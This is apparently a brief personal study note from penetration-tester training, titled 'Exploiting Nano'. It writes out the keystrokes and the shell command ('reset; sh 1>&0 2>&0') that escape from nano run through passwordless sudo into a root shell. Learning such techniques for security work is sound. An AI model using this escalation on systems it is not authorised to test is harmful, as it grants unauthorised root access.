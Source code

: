 # Exploiting Nano

author:: Nathan Acks  
date:: 2022-04-21

If `nano` is allowed to be run via `sudo` without a password, you can use the following to break out into a root shell:

* `CTRL+R` (read file)
* `CTRL+X` (execute file)
* `reset; sh 1>&0 2>&0`

Boom!

* [2022-04-20 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
